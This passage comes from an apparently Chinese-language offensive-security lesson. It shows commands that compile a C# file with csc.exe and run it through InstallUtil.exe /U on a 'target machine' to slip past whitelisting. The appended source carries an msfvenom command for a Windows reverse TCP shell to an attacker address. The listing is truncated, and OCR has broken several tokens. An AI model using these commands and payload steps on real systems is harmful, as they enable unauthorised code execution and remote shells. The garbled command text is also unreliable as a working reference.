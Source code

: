**靶机执行：**
`C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe /r:System.Ente rpriseServices.dll /r:System.IO.Compression.dll /target:library /out:Mic opoor.exe /platform:x64 /unsafe C:\Users\John\Desktop\Micropoor_Csc.cs
`

`
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=false /U C:\Users\John\Desktop\Micropoor.exe`
![](media/04e49b7638caec7568dd6d7957b2e701.jpg)

**与第七十二课相比，payload更为灵活。**

**附录：Micropoor_Csc.cs**

```c#
using System;

using System.Net;

using System.Diagnostics;

using System.Reflection;

using System.Configuration.Install;

using System.Runtime.InteropServices; 


// msfvenom ‐p windows/x64/shell/reverse_tcp LHOST=192.168.1.4 LPORT=53 ‐f csharp 

public class Program

{

public static void Main()

{ 

}


} 

[System.ComponentModel.RunInstaller(true)]

public class Sample : System.Configuration.Install.Installer

{ 
```